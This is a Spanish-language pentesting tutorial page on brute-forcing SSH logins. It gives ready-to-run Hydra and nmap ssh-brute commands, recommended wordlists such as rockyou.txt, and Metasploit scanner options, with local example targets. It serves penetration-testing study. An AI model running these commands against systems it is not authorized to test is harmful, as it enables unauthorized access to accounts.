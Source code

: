 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio SSH
cover: >-
  https://images.unsplash.com/photo-1576502200916-3808e07386a5?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw2fHxnZW9tZXRyaWN8ZW58MHx8fHwxNjg5MjQxNDA2fDA&ixlib=rb-4.0.3&q=85
coverY: 278
---
```


# SSH

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SSH, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SSH no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 ssh://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt ssh://127.0.0.1 -t 15
```

### Metasploit

Para esto, usaremos el modulo "SSH Login Check Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos emplear el script "`ssh-brute`" para usar fuerza bruta. En este caso no es necesario especificar un diccionario de contraseñas, solo de usuarios:

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
